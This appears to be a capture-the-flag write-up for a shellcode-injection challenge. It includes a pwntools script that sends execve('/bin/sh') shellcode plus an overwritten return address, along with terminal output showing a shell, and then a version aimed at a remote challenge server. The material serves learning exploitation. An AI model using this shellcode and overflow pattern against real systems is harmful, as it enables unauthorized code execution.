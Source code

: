 Modified script:

```py
from pwn import *

p = process('./chall')
gdb.attach(p)
line = p.recv()
# the address of the buffer
addr = int(line[len("What's this:"):-2],16) # after colon, except last two characters i.e. ?, '\n' or newline
# the shellcode
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
# our payload
payload = shellcode + "A"*(100-len(shellcode)) + p32(addr)
# send it!
p.send(payload)

p.interactive()
```
Run this:
```
➜  python solve.py
[+] Starting local process './chall': pid 12719
[*] running in new terminal: /usr/bin/gdb -q  "./chall" 12719 -x "/tmp/pwnqxBTc2.gdb"
[+] Waiting for debugger: Done
[*] Switching to interactive mode
$ whoami
thefox
$ 
```
and in gdb:
```
gef➤  c
Continuing.
process 12719 is executing new program: /bin/dash
```
Thus,we have successfully done a shellcode injection challenge. Pat yourself on the back :)
To turn this to a simple server exploit, just comment out the gdb.attach , process statements, and add a new remote object statement. Everything else stays the same. This is so easy.
```py
➜  cat solve.py
from pwn import *

# p = process('./chall')
# gdb.attach(p)
p = remote("163.172.144.42", 10180)
line = p.recv()
# the address of the buffer
addr = int(line[len("What's this:"):-2],16) # after colon, except last two characters i.e. ?, '\n' or newline
# the shellcode
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
# our payload
payload = shellcode + "A"*(100-len(shellcode)) + p32(addr)
# send it!
p.send(payload)

p.interactive()
```
Run this:
```
➜  python solve.py
[+] Opening connection to 163.172.144.42 on port 10180: Done
```